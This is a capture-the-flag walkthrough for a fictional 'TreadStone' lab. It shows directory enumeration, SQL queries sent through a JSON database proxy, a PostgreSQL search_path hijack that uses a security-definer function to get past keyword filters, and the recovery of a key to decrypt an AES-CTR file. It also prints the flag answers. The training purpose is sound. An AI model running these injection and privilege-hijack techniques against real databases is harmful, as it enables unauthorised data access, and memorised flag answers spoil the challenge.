





# The Bourne Exploitation

## Overview

A black-ops database known as “TreadStone” has gone active again. Agent logs, kill files, and operational footprints were erased — or so they thought. Track down the agents who never existed.

## Question 1
*Navigating to the Analyst Web UI, and enumerate the interface, and its relationships to obtain SQL Injection and retrieve this token using the get_briefing_token() routine.*

### Approach

1) When you open the challenge, the Analyst Web UI `http://analyst-web:8080/` shows some operational data. Your first instinct: “What’s behind this? Can I poke the backend?”

Additionally, there is an error containing a broken query we can leverage:



2) Based on the briefing, it is determined that "some proxy" exists at `http://trust-proxy:8081/`. Let's first, use `dirb` against the `Analyst UI` to see if we run into any hidden files we can leverage to get a foothold:

```bash
dirb http://analyst-web:8080
```

Output: 

```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Sep 10 04:09:20 2025
URL_BASE: http://analyst-web:8080/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://analyst-web:8080/ ----
+ http://analyst-web:8080/_notes (CODE:200|SIZE:20016)                          
                                                                               
-----------------
END_TIME: Wed Aug 26 04:10:20 2025
DOWNLOADED: 4612 - FOUND: 1
```

We notice that `_notes` is an available endpoint. Let's investigate:



3) Copy the wordlist into a file such as "endpoints.txt" (locally) for future use.

4) As it mentions "proxy web endpoints", we should try this list against any `web based` components to include the `trust_proxy` listed in our briefing.

Try the new wordlist against `trust_proxy`:

```bash
dirb http://trust-proxy:8081 endpoints.txt
```

Output:

```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Sep 10 04:15:51 2025
URL_BASE: http://trust-proxy:8081/
WORDLIST_FILES: endpoints.txt

-----------------

GENERATED WORDS: 1000                                                          

---- Scanning URL: http://trust-proxy:8081/ ----
+ http://trust-proxy:8081/healthz (CODE:200|SIZE:2)                             
+ http://trust-proxy:8081/proxy/db (CODE:405|SIZE:153)                          
                                                                               
-----------------
END_TIME: Wed Sep 10 04:16:00 2025
DOWNLOADED: 1000 - FOUND: 2
```

We can see that two more endpoints show up: `healthz` and `proxy/db`. Notice the `CODE: 405`; this means an invalid method has been used for this point. We must find the right method that works with it and can do this using `curl`:

```bash
curl -s -I -X POST http://trust-proxy:8081/proxy/db
```

We receive the following message:

```text
HTTP/1.1 400 BAD REQUEST
Server: Werkzeug/3.1.3 Python/3.12.11
Date: Wed, 10 Sep 2025 04:19:04 GMT
Content-Type: application/json
Content-Length: 54
Connection: close
```

💡 We now know the webserver takes data that uses the Content-Type `application/json`. We must now formulate a payload to begin exploitation.

5) Based on what we saw before error wise with the call to `get_ops()`, it is apparently we must SQL in some fashion to get the desired result:

```error
Data source: SELECT * FROM get_ops();

function get_ops() does not exist LINE 1: SELECT * FROM get_ops(); ^ HINT: No function matches the given name and argument types. You might need to add explicit type casts. 
```

6) We can use `curl` again to test a sample query:


```bash
curl -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d '{"test":"SELECT now();"}'
```

Output:

```text
{"error":"Only read-only queries allowed via 'sql' key","ok":false}
```

Note the error; this means we need to use `sql` in order to get the desired functionality. The application is expecting it.

```bash
curl -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d '{"sql":"SELECT now();"}'
```

Great! It processes our requests.

6) Now use the following command to get to the analyst_ops() tables schema and query what other tables exist:

🪙 Keep the command below for later (function seeker).

```bash
# function seeker
jq -n --arg q "SELECT table_name FROM information_schema.tables WHERE table_schema='analyst_ops';" '{sql:$q}' | curl -X POST http://trust-proxy:8081/proxy/db   -H 'Content-Type: application/json'   -d @-
```

```response
{"ok":true,"rows":[{"table_name":"milestones"},{"table_name":"deleted_agents"},{"table_name":"agents"},{"table_name":"tokens"},{"table_name":"logs"}]}
```

💡 The `jq` command is useful for sending JSON based data streams. Effectively, we're assigning any result from it's execution to the `q` variable and outputting the result as it iterates through the database tables under analyst_ops.


💡 Additionally, the `tokens` table is not accessible by players; it is meant as a distraction and cannot be touched by the roles in this 

```bash
jq -n --arg q "SELECT * FROM analyst_ops.tokens;" '{sql:$q}' | curl -s -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d @-
```

Output:

```text
# -> {"ok":false,"error":"Access denied"}
```

7) The question mentions a `routine` to search for vs a function. To retrieve them, we can do the following:

🪙 Keep the command below for later (routine seeker).

```bash
jq -n --arg q "
SELECT p.proname AS name,
       pg_get_function_arguments(p.oid) AS args,
       t.typname AS returns,
       l.lanname AS lang
FROM pg_proc p
JOIN pg_namespace n ON n.oid=p.pronamespace
JOIN pg_type t ON t.oid=p.prorettype
JOIN pg_language l ON l.oid=p.prolang
WHERE n.nspname='analyst_ops'
ORDER BY 1;
" '{sql:$q}' | \
curl -s -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d @-
```

You will end up with several routines to choose from:

```text
{"ok":true,"rows":[["get_briefing_token","","text","sql"],["get_ops","","record","sql"],["shadow_token","","text","sql"],["trg_ts_mismatch","","trigger","plpgsql"]]}
```

8) Given we know which routine we want to use, we can use the following command to get `token 1`:

```bash
jq -n --arg q "SELECT analyst_ops.get_briefing_token();" '{sql:$q}' | curl -sS -X POST http://trust-proxy:8081/proxy/db   -H 'Content-Type: application/json' -d @-
```

Output:



#### Answer
We now have token 1 `PCCC{Paz-G9W7eq}`.


## Question 2
*Unify the hex fragments of `Case RC7` found in the analyst_ops.logs and the analyst_ops.milestones to learn the identity of the next agent*


We did most of the leg work to discover what the `functions` were versus the `routines` present in this Treadstone database. We will now have to evade defenses in order to get `token 2`.

### Approach
1) Let's confirm we can still reach the proxy in read-only mode:

```bash
curl -sS -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d '{"sql":"SELECT 1;"}'
```

Output:

```bash
┌──(user㉿85a2da107e67)-[~]
└─$ curl -sS -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d '{"sql":"SELECT 1;"}'                             
{"ok":true,"rows":[[1]]}
```

2) Now use the `routine seeker` command from `Question 1 Step 7`. You should see get_ops, get_briefing_token, shadow_token. 
What we find is that `token 2` is not part of an exposed function by design.

3) Trying to retrieve the tokens by accessing the `analyst_ops.tokens` function will not yield success:

```bash
jq -n --arg q "SELECT * FROM analyst_ops.tokens;" '{sql:$q}' | curl -sS -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d @-
```

Output:

```bash
┌──(user㉿85a2da107e67)-[~]
└─$ jq -n --arg q "SELECT * FROM analyst_ops.tokens;" '{sql:$q}' | curl -sS -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d @-
{"error":"Access denied","ok":false}
```


4) Let's analyze all the fields in the analyst_ops.logs function that harbor the clues provided:

```bash
jq -n --arg q "
SELECT id, at, level, message
FROM analyst_ops.logs
WHERE message ILIKE 'case %: left=%'
ORDER BY id DESC
LIMIT 20" '{sql:$q}' | \
curl -sS -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d @-
```

With the right filtering, you should receive the following:

```response
{"ok":true,"rows":[[3,"Fri, 26 Dec 2025 02:45:53 GMT","INFO","case RC7: left=504343437b526f6e2d4372"]]}
```

We now have the `left fragment`.

5) Let's now analyze all the fields in the analyst_ops.milestones function that harbor the clues provided:

```bash
jq -n --arg q "
SELECT id, code, details->>'case' AS case_id, details->>'right' AS right_hex
FROM analyst_ops.milestones
WHERE details ? 'case'
ORDER BY id DESC
LIMIT 20" '{sql:$q}' | \
curl -sS -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d @-
```

You should now receive the last part of the fragment:

```response
{"ok":true,"rows":[[1,"CASE_RC7","RC7","6f73732d483049366a4c7d"]]}
```

6) We must `Unify` or create an SQL `Union` between the datasets to reassemble this token. We can use the following script to match them based on the `Case RC7` value being what they have in common:

<details>
<summary>💡 Lamens Explanation</summary>
# The Lamens Version  
# 1) Look for "case"
# 2) Match on details
# 3) Combine the hashes
</details>

```bash
jq -n --arg q "
WITH L AS (
  SELECT
    (regexp_matches(message, 'case\\s+([A-Z0-9-]+):\\s+left=([0-9a-f]+)', 'i'))[1]::text AS case_id,
    (regexp_matches(message, 'case\\s+([A-Z0-9-]+):\\s+left=([0-9a-f]+)', 'i'))[2]::text AS left_hex
  FROM analyst_ops.logs
  WHERE message ~* 'case\\s+[A-Z0-9-]+:\\s+left=[0-9a-f]+'
),
R AS (
  SELECT details->>'case' AS case_id,
         details->>'right' AS right_hex
  FROM analyst_ops.milestones
  WHERE details ? 'case'
)
SELECT convert_from(decode(L.left_hex || R.right_hex, 'hex'), 'UTF8') AS token2
FROM L JOIN R USING (case_id)
LIMIT 1
" '{sql:$q}' | \
curl -sS -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d @-
```

Output:

```text
{"ok":true,"rows":[["PCCC{Ron-Cross-H0I6jL}"]]}
```

#### Answer

You now have the answer to `token 2`.

### Question 3
*Abuse treadstone_db's search_path to force calls to your public.get_ops() instead of the real analyst_ops.get_ops(). Make this new `shadow function` return token 3 (the name of the third agent involved in this incident).*


1) We must first confirm our user and the ability to use search_path. We know the app connects as `analyst` and sets a permissive search path (public, analyst_ops). That means an `unqualified` call to get_ops() will hit public first — perfect for hijacking.

```bash
jq -n --arg q "SELECT current_user, current_setting('search_path')" '{sql:$q}' | \
curl -sS -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d @-
```

The result is:

```bash
{"ok":true,"rows":[["analyst","\"public, analyst_ops\""]]}
```

As we can see `public` is an option for us to use as the analyst user.

2) Next, we need to find a `security definer` or helper that can read for us since our reach is limited. Back to our use of `routine seeker`, we find that `shadow_token()` is usable by our user:

```bash
jq -n --arg q "
SELECT p.proname AS name,
       pg_get_function_arguments(p.oid) AS args,
       t.typname AS returns
FROM pg_proc p
JOIN pg_namespace n ON n.oid=p.pronamespace
JOIN pg_type t ON t.oid=p.prorettype
WHERE n.nspname='analyst_ops'
ORDER BY 1" '{sql:$q}' | \
curl -sS -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d @-
```

Output:

```text
{"ok":true,"rows":[["get_briefing_token","","text"],["get_ops","","record"],["shadow_token","","text"],["trg_ts_mismatch","","trigger"]]}
```

The beauty behind this type of exploitation is its almost akin to a `race condition` by which you are attempting to force a legitimate function or portion of the application to `talk to you first` before executing the standard workflow of operations. This gives you direct control over the application.

<details>
<summary>Learning more about the filter in play</summary>
There is a heavy filter on user input and basic read-only commands may not work as intended (by design to protect the identities of the agents involved in this incident).
We can use verbs like `EXPLAIN` to bypass this filter as the system is not expecting it and is only filtering against common attack vectors.

```bash
jq -n --arg q "EXPLAIN SELECT * FROM get_ops();" '{sql:$q}' | \
curl -sS -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d @-
```

This unforunately yields:

```response
{"error":"Read-only queries only","ok":false}
```

</details>

3) Based on further interaction with the schema, we realize we have read-only access and have seen what fields are expected by the `treadstone_db` hidden function. Luckily for us, the specs can be found by using the analyst_ops.fn_requirements function:

```bash
jq -n --arg q "SELECT * FROM analyst_ops.fn_requirements;" '{sql:$q}' | curl -sS -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d @-
```

This reveals our schema:

```sql
{"ok":true,"rows":[["analyst_ops","get_briefing_token","","text","sql","postgres","definer",true,true,true,"Token 1 helper (definer); needs EXECUTE"],["analyst_ops","get_ops","","record","sql","analyst","definer",true,true,true,"General function"],["analyst_ops","shadow_token","","text","sql","postgres","definer",true,true,true,"Token 3 helper (definer); used inside hijack"],["analyst_ops","trg_ts_mismatch","","trigger","plpgsql","analyst","invoker",true,true,true,"General function"]]}
```

4) We can now create our function using this command:

```bash
jq -Rs '{sql: .}' <<'SQL' | curl -sS -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d @-
CREATE OR REPLACE FUNCTION public.get_ops()
RETURNS TABLE(op_id INT, op_name TEXT, op_desc TEXT)
LANGUAGE sql AS $$
  SELECT 999, 'Token Found:', analyst_ops.shadow_token();
$$;
SQL
```

Output:

```text
┌──(user㉿85a2da107e67)-[~]
└─$ jq -Rs '{sql: .}' <<'SQL' | curl -sS -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d @-                    
CREATE OR REPLACE FUNCTION public.get_ops()
RETURNS TABLE(op_id INT, op_name TEXT, op_desc TEXT)
LANGUAGE sql AS $$
  SELECT 999, 'Token Found:', analyst_ops.shadow_token();
$$;
SQL
{"ok":true,"rows":[]}
```

You'll notice the application does provide a "true" result however, no token is present. We need to call the old function which will call our malicious function and grab the token for us.

Learn More (Why This Works)
* The app/UI calls SELECT * FROM get_ops(); with no schema => resolves to public.get_ops().
* Your function calls analyst_ops.shadow_token() (a definer owned by postgres) to fetch Token 3 safely.
* Your query text doesn’t contain TOKEN_3 or tokens, so Trust Proxy bans don’t apply.

5) We're not done yet; we now have to call this new function via the old one:

```bash
jq -n --arg q "SELECT * FROM public.get_ops();" '{sql:$q}' | curl -sS -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d @-
```

Output:

```bash
┌──(user㉿85a2da107e67)-[~]
└─$ jq -n --arg q "SELECT * FROM public.get_ops();" '{sql:$q}' | curl -sS -X POST http://trust-proxy:8081/proxy/db -H 'Content-Type: application/json' -d @-
{"ok":true,"rows":[[999,"Token Found:","PCCC{Lex-Conklin-JpaTIK}"]]}
```

#### Answer 3

The answer to this question is the value of `Token Found`.


## Question 4

*Recently acquire intel suggest TREADSTONE analysts have hidden a critical mission briefing somewhere within their internal documentation portal. We have been told that fragments (S1-4) of the key to read it are scattered across multiple sources, and only by combining them correctly will the ciphertext yield its secret. Recover the full mission briefing token (Token 4) from the TREADSTONE documentation site by decrypting `mission.enc`.*


NOTE: As this is a more difficult token to retrieve, the following shortcut icons can be found to get you right to the answer:

(🗝️S#) - signifies a fragment being acquired
(KEY COMPONENT #) - refers to either the AES or IV required to decrypt mission.enc

Let's get started:

1) First, let's examine the front face of the application site; there aren't too many user input areas available lending us to believe the secrets must be hidden `behind the scenes` out of plain sight:



On the landing page though, we find a footer that mentions “Indexing policy in robots.txt and registered URLs.”

Our next step will be to investigate the file mentioned.

💡 Alternatively, we can use dirb to find some new places to investigate:

```bash
URL_BASE: http://docs/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://docs/ ----
==> DIRECTORY: http://docs/assets/                                             
+ http://docs/index.html (CODE:200|SIZE:2195)                                  
==> DIRECTORY: http://docs/kb/                                                 
==> DIRECTORY: http://docs/press/                                              
+ http://docs/robots.txt (CODE:200|SIZE:80)                                    
+ http://docs/sitemap.xml (CODE:200|SIZE:316)                                  
==> DIRECTORY: http://docs/team/                                               
                                                                               
---- Entering directory: http://docs/assets/ ----
==> DIRECTORY: http://docs/assets/css/                                         
==> DIRECTORY: http://docs/assets/img/ 
```


2) (🗝️S1) Navigate to `robots.txt`:

```bash
curl -s http://docs/robots.txt
```

You will be presented with a "research-key:S1" variable which yields the `first part of the key sequence we need` to decrypt the soon to be discovered document:

```robots.txt
User-agent: *
Disallow: /kb/
# research-key:S1=dec24543613a50a550a6dfaf0ab9fa81
```

3) (🗝️S3) Let's review the Sitemap (common practice for web penetration testers and adversaries):

```bash
curl -s http://docs/sitemap.xml
```

Output:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">
  <!-- s3=8e55bb468de283be22cbd40010a2840a -->
  <url><loc>/</loc></url>
  <url><loc>/kb/whitepaper.txt</loc></url>
  <url><loc>/.well-known/mission.enc</loc></url>
  <url><loc>/assets/hero.png</loc></url>
</urlset>
```

When sites mention "registered URLs", they are often associated with an established Sitemap.

4) (🗝️S3) Check the source code to find S3=<VALUE> following by a document:

```xml
<!-- s3=8e55bb468de283be22cbd40010a2840a -->
<url><loc>/kb/whitepaper.txt</loc></url>
```

*Please note that fragments may vary per challenge execution*

We have now found the third fragment (out of order) but we also find there's a "whitepaper" located at `/kb/whitepaper.txt`.

5) Examining the site, we find that a sole image exists in the /assets/ folder named `hero.png`. Images often harbor metadata so let's inspect it:

```bash
curl -s http://docs/assets/hero.png -o hero.png
```

6) Attempting to run `strings` or `cat` on the file makes a call out to the site (interesting):

```bash
file hero.png
```

Output:

```text
hero.png: PNG image data, 1 x 1, 8-bit gray+alpha, non-interlaced
```

7) (🗝️S2) Let's try to extract metadata from this "png" using python:

```python
import struct

with open("hero.png", "rb") as f:
    b = f.read()

# PNG file signature (8 bytes)
assert b[:8] == b"\x89PNG\r\n\x1a\n", "Not a PNG file"
i = 8

while i < len(b):
    if i + 8 > len(b):
        break  # incomplete header

    # Chunk layout: | length(4) | type(4) | data(length) | crc(4) |
    length = int.from_bytes(b[i:i+4], "big")
    ctype  = b[i+4:i+8]
    data_start = i + 8
    data_end   = data_start + length
    crc_end    = data_end + 4

    if crc_end > len(b):
        break  # truncated/corrupt PNG

    if ctype == b"tEXt":
        # tEXt data format: key \x00 value
        key, sep, value = b[data_start:data_end].partition(b"\x00")
        if key == b"s2" and sep == b"\x00":
            print("S2 fragment:", value.decode("latin1"))
            break

    # move to next chunk
    i = crc_end
else:
    print("No s2 tEXt chunk found.")
```

You will receive this:

```bash
┌──(user㉿85a2da107e67)-[~]
└─$ python3 q4-hero-s2.py 
S2 fragment: bc6eda8a4ba9a6bc7ecdbe5267d35f7c
```

8) We now have all three fragments; let's consult the `whitepaper.txt` object we found earlier:

```bash
curl -s http://docs/kb/whitepaper.txt
```

Here's an example of the output:

```text
TREADSTONE WHITEPAPER (excerpt)
We split the briefing key across three sources. Recombine as:
  key = SHA256( hex_to_bytes(S1 || S2 || S3) )
Cipher: AES-256-CTR
iv=71356372f2f08ed101019e169a6ca434
```

We need now know we need to:
* Concatenate S1+S2+S3 (hex).
* Convert to bytes.
* SHA-256 hash → 32-byte AES key.
* Cipher mode: AES-256-CTR.
* Use the IV given here.


9) The Sitemap also lists a .well-known URL. From here, we can obtain `mission.enc`:

```bash
curl -s http://docs/.well-known/mission.enc -o mission.enc
```

10) (KEY COMPONENT #1) Let's make the AES Key:

```python
#!/usr/bin/env python
import binascii, hashlib, os

S1=<value_from_robots_txt> 
S2=<value_from_png> 
S3=<value_from_sitemap>
S4=S1+S2+S3

print("Your AES KEY is:")
print(hashlib.sha256(binascii.unhexlify(f"{S4}")).hexdigest())
```

Output

```text
25f58203a69696b38e64002622ca8811ca617250355f4de9ca226cfa1aa2ab61
```

The result is the 32 byte AES key we need.

11) (KEY COMPONENT #2) Let's decrypt the ciphertext with the `IV` from the whitepaper:

```bash
IV=71356372f2f08ed101019e169a6ca434
K=25f58203a69696b38e64002622ca8811ca617250355f4de9ca226cfa1aa2ab61
openssl enc -d -aes-256-ctr -K "$K" -iv "$IV" -in mission.enc -out -
```

We finally receive token 4 upon completion:



### Answer

The answer to this question is the value presented to you after decryption is complete.

*This concludes this solution guide.*